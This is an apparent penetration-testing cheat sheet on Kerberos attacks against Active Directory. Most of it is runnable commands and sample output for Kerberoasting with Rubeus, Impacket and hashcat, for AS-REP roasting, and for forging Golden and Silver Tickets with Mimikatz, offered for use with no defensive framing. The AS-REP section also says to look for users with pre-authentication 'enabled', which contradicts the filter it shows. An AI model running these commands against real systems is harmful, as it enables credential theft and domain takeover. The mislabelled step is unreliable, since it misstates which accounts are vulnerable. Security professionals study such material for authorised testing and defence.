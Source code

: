 # Kerberos Attacks

## Relationships and Attack paths

We can use [bloodhound ](../../tools/bloodhound/)to find hidden relationships and attack paths in an Active Directory environment.

From the data collect we can escalate our privilege to the target, or use tools like [aclpwn](../../tools/bloodhound/aclpwn.md).

## Kerberoasting

The [AD Powershell ](https://github.com/samratashok/ADModule)module can be used to search for users with SPN

| `Import-Module .\Microsoft.ActiveDirectory.Management.dll -Verbose`  `Get-ADUser -LdapFilter "(&(objectCategory=person)(objectClass=user)(servicePrincipalName=*))"` `| Format-Table Name, DistinguishedNam` |
| :--- |


Using Nmap: 

`nmap $TARGET -p 88 --script krb5-enum-users --script-args krb5-enum-users.realm='test'` 

Using Rubeus to gain hashes: 

`Rubeus.exe kerberoast /outfile:hashes.txt` 

 Use the hashcat -m 13100 \(Kerberos 5 TGS-REP etype 23\) to crack:  

`hashcat -a 0` `-m 13100` `SPN.hash /wordlists/rockyou.txt`

Using impacket:

\`\`

```text
python GetUserSPNs.py <domain_name>/<domain_user>:<domain_user_password> -outputfile <output_TGSs_file>
```

[https://newerasec.com/kerberoasting/](https://newerasec.com/kerberoasting/)

## AS-RES

Find users with pre-auth enabled using the [AD Powershell ](https://github.com/samratashok/ADModule)module :

```text
Import-Module .\Microsoft.ActiveDirectory.Management.dll -Verbose

Get-ADUser -Filter 'useraccountcontrol -band 4194304' -Properties useraccountcontrol | Format-Table name
```

To exploit run:

```text
.\Rubeus.exe asreproast
```

Impacket:

```text
# check ASREPRoast for all domain users (credentials required)
python GetNPUsers.py <domain_name>/<domain_user>:<domain_user_password> -request -format <AS_REP_responses_format [hashcat | john]> -outputfile <output_AS_REP_responses_file>

# check ASREPRoast for a list of users (no credentials required)
python GetNPUsers.py <domain_name>/ -usersfile <users_file> -format <AS_REP_responses_format [hashcat | john]> -outputfile <output_AS_REP_responses_file>
```

[https://newerasec.com/as-roast/](https://newerasec.com/as-roast/)

## Golden Ticket

Once you gained the krbtgt hash \(from dcsync or DC compromise\)T

The Mimikatz kerberos::golden module handles Golden Tickets

We need the following parameters:  

* /domain - name of the domain
* /sid - the sid of the domain \(can be obtain from 'whoami /user' , remember to remove the RID\)
* /rc4 - the NTLM hash of krbtgt
* /user - the user you want to create the new TGT ticket for
* /id - the RIF of that user you looking to create ticket for
* /ptt - \(Optional\) inject the new ticket into the current session, if not applied the ticket will be saved to a file

```text
mimikatz # kerberos::golden /domain:eth.lab /sid:S-1-5-21-98033113-2199257571-2188946577 /rc4:88a4507aae31297a2df7921b1430d781 /user:Administrator /id:500  /ptt
User      : Administrator
Domain    : eth.lab (ETH)
SID       : S-1-5-21-98033113-2199257571-2188946577
User Id   : 500
Groups Id : *513 512 520 518 519
ServiceKey: 88a4507aae31297a2df7921b1430d781 - rc4_hmac_nt
Lifetime  : 06/04/2020 14:05:45 ; 04/04/2030 14:05:45 ; 04/04/2030 14:05:45
-> Ticket : ** Pass The Ticket **
 
 * PAC generated
 * PAC signed
 * EncTicketPart generated
 * EncTicketPart encrypted
 * KrbCred generated
 
Golden ticket for 'Administrator @ eth.lab' successfully submitted for current session 
```

## Silver Ticket

use the 'kerberos::golden' module to forge TGS, we will need to pass the following parameters:

* /domain: The FDQN
* /sid: The SID \(Security Identifier\) of the Domain \(whoami /user\)
* /user: Target Account/Computer to Impersonate
* /id: RID of the account you will be impersonating
* /ptt: Optional \( will automatically inject the ticket into the current session\)
* /rc4: NTLM Hash of User Password/Computer Password
* /service: the service we want to access

**Example:**

```text
mimikatz # kerberos::golden /sid:S-1-5-21-98033113-2199257571-2188946577-500 /domain:eth.lab /ptt /id:500 /target:WIN-EU4DLP9KRRC.eth.lab /service:cifs /rc4:0c0d4252608be9131c2826a6feaf94b8 /user:Administrator
User      : Administrator
Domain    : eth.lab (ETH)
SID       : S-1-5-21-98033113-2199257571-2188946577-500
User Id   : 500
Groups Id : *513 512 520 518 519
ServiceKey: 0c0d4252608be9131c2826a6feaf94b8 - rc4_hmac_nt
Service   : cifs
Target    : WIN-EU4DLP9KRRC.eth.lab
Lifetime  : 03/04/2020 17:00:01 ; 01/04/2030 17:00:01 ; 01/04/2030 17:00:01
-> Ticket : ** Pass The Ticket **
 
 * PAC generated
 * PAC signed
 * EncTicketPart generated
 * EncTicketPart encrypted
 * KrbCred generated
 
Golden ticket for 'Administrator @ eth.lab' successfully submitted for current session
```

